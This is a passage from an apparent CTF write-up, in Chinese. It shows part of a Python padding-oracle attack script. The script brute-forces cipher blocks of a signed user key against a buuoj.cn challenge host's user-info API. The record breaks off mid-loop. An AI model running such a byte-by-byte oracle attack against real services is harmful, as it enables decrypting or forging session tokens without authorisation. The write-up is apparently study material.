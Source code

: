 ![Untitled](%E6%80%9D%E8%B7%AF%20e0fa6f8ee23a464bbf26d33136685e05/Untitled%205.png)

## ****padding-oracle attack****

```python
import time

import requests
import base64
import json

host = "0b940989-8cd4-4990-955c-62272a7ba9a5.node2.buuoj.cn.wetolink.com"
port = 82

def padding_oracle(key):
    user_key_decode = base64.b64decode(key)
    user_key_json_decode = json.loads(user_key_decode)
    signed_key = user_key_json_decode['signed_key']
    signed_key_decoded = base64.b64decode(signed_key)
    #print(signed_key_decoded)
    url = "http://" + host + ":" + str(port) + "/frontend/api/v1/user/info"
    #print(signed_key_decoded)
    # b'ICxkSingDanceRaPY\xac\xad>\xe4h]\xd0[\xfa(_\xb5*N(&\xc8\xc62\xd1\x06>M\xe2\xb7\xdaLEz\x8cd\xfd\x8e\xb2\xde\x19\xbf\x84\x15\xbe\x88\xb8\xae*\xfb\x0c)#\xbeT\xf0\x89\x14\x8e\xce\x96\xb4\xbf\x1aV\xbcU\x98ns;\xf9\xfb\xcb\xf7Z\xb0\x88\x1c\xd4\xa6D\xd2\xa5\x00^\x03\xbd\x1e\xa5\xd1\x19Tf=3g\xcd\xd7\x88'
    # print(len(signed_key_decoded))
    # 112/16=7
    N = 16

    total_plain = ''
    for block in range(0, len(signed_key_decoded) // 16 - 1):
        token = ''
        get = b""
        cipher = signed_key_decoded[16 + block * 16:32 + block * 16]
        for i in range(1, N+1):
            for j in range(0, 256):
                time.sleep(0.1)
                padding = b"".join([(get[n] ^ i).to_bytes(1, 'little') for n in range(len(get))])
```